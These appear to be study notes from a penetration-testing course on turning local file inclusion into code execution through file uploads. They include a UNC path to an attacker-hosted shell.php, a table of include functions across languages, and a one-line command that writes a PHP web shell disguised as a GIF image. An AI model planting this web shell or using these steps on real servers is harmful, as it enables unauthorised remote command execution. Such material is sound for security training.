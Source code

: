 Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`),

to specify the command use **&cmd=< command here>**


## LFI and File Uploads

File uplaod functionalites are ubiquitos in most modern web apps.
For attackers the ability to store files on the back end may extend the exploitation of many vulns.

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `include`                    |        ✅         |      ✅      |       ✅        |
## Image uplaod

image uplaod is very commming in most moder web apps. 


#### crafing malicious image

first step iis to create a malicious iamge using php web shell code that still looks and works like an image.

1. use an allowed image extension in our file name e.g shell.gif
2. include the magic byets at the beggining oif the file content e.g gif8
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

this file on its own is harmless and wonta ffect normal web apps. However when combined with an LFI we can reach RCE

> [!note]
> We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

## Zip Upload
